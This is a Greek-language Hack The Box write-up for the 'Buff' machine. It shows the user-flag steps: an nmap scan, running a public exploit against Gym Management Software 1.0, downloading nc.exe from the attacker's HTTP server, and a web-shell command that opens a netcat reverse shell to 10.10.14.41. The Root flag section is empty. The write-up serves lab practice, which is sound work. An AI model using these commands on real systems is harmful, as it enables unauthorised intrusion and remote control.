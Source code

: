 ## [HTB] Hackthebox Buff machine writeup by dhmosfunk



![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/buff.png?raw=true)<br>

[1.User flag]()

[2.Root flag]()




#### 1.User flag
- [x] MACHINE IP: 10.10.10.198 <br> <br>
Πρώτα απ όλα ξεκινάμε με ένα nmap scan για να δούμε τι ports τρέχουν στην IP. <br>
```nmap -sV -sC -oA nmap/buff 10.10.10.198```
![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nmap%20scan.png?raw=true)

Όπως βλέπουμε στο scan μας τρέχει ενας webserver στο port 8080.
Ανοίγοντας το site στον browser και πηγαίνοντας στο contact.php θα βρούμε το software που τρέχει στον server(Που επίσης είναι outdated).

![outdatedsoftware](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/gymanagement.png?raw=true)

Με ενα google search βρίσκουμε το συγκεκριμένο exploit: [Gym Management Software 1.0 exploit](https://www.exploit-db.com/exploits/48506)

Το κάνουμε download και το τρέχουμε όπως δείχνω στην εικόνα

```python 48506.py http://10.10.10.198:8080/```
![exploit](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/shell.png?raw=true)

Και έχουμε shell!

Τώρα θέλουμε να κάνουμε ενα [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) που θα το κάνουμε με το netcat.

Πρώτα απο όλα πρέπει να βρούμε το netcat.exe και να το κάνουμε upload στο buff machine

![nc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc.png?raw=true)

Μόλις βρούμε το netcat.exe δημιουργούμε ενα simplehttpserver με την python για να το “τραβήξουμε” στο buff machine <br>
```python -m SimpleHTTPServer 9003 ```
![simplehttpserver](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/httpserver.png?raw=true)


Για να “τραβήξουμε” το nc.exe θα πρέπει να χρησιμοποιήσουμε το ‘wget’ όπως δείχνω παρακάτω <br>
```powershell wget http://10.10.14.41:9009/nc.exe```
![uploadnc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/uploadnc.png)


Ωραία μέχρι εδω..
Τώρα reverse shell.. Δημιουργούμε ενα listener στο kali machine
```nc -lvvnp 9003```
![nclistener](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc%20listen.png?raw=true)

Μόλις βάλουμε τον listener θα πρέπει να πάμε στον browser να τρέξουμε το command:<br>
```10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.41 9003 -e cmd.exe```
![browservs](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/browser%20reverse%20shell.png?raw=true)
<br>
Και μετα βρίσκουμε το user.txt
![userflag](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflag.png?raw=true)

![userflag2](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflagtxt.png?raw=true)

Και πάμε για το root!








#### 2.Root flag
